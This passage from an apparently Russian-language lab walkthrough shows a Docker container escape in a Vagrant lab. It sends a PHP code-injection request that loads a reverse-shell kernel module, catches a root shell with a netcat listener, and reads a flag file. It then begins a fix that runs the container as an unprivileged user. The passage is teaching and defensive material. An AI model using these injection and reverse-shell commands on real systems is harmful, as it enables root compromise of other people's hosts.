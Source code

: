 Откроем ещё один терминал на хосте `hacker` и запустим на нем
netcat в режиме ожидания соединения:
```
$ vagrant ssh hacker
vagrant@hacker:~$ nc -vnlp 4444
  listening on [any] 4444 ...
```

Теперь загрузим модуль:
```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('insmod reverse-shell.ko');"
  <h1> Hello world!</h1>
  <br>
```

При этом во втором окне, там где мы запустили netcat, мы получим привилегированный shell на хостовой системе `victim`:
```
vagrant@hacker:~$ nc -vnlp 4444
  listening on [any] 4444 ...
  connect to [192.168.50.5] from (UNKNOWN) [192.168.50.4] 39060
  bash: cannot set terminal process group (-1): Inappropriate ioctl for device
  bash: no job control in this shell
root@victim:/# id
  id
  uid=0(root) gid=0(root) groups=0(root)
root@victim:/# cat /home/vagrant/FLAG
  cat /home/vagrant/FLAG
  WAS HACKED 
```

## Solution I

Самым простым способом решения проблемы является запуск из под
не привилегированного пользователя. Для реализации этого подхода
на хосте `victim` откройте Dockerfile и добавим в него
строку `USER 1000`:
```
$ vagrant ssh victim
vagrant@victim:~$ cd /vagrant/victim/
vagrant@victim:/vagrant/victim$ docker-compose stop
  Stopping victim_webapp_1 ... done
vagrant@victim:/vagrant/victim$ nano Dockerfile
  ...
  USER 1000
  ...
<Ctrl+O><Ctrl+X>
vagrant@victim:/vagrant/victim$ docker-compose up --build -d
  Building webapp
  Step 1/5 : FROM php:7.4-cli
   ---> 639632eff06b
  Step 2/5 : WORKDIR /app
   ---> Using cache
   ---> 6cd15b0ede2b
  Step 3/5 : USER 1000
   ---> Running in 84916b1065ad
  Removing intermediate container 84916b1065ad
   ---> 07fe5524f58b
  Step 4/5 : COPY index.php index.php
   ---> 789aa580e832
  Step 5/5 : CMD [ "php", "-S", "0.0.0.0:80" ]
   ---> Running in fd3e54dd7ef2
  Removing intermediate container fd3e54dd7ef2
   ---> 3afd0af1371b

  Successfully built 3afd0af1371b
```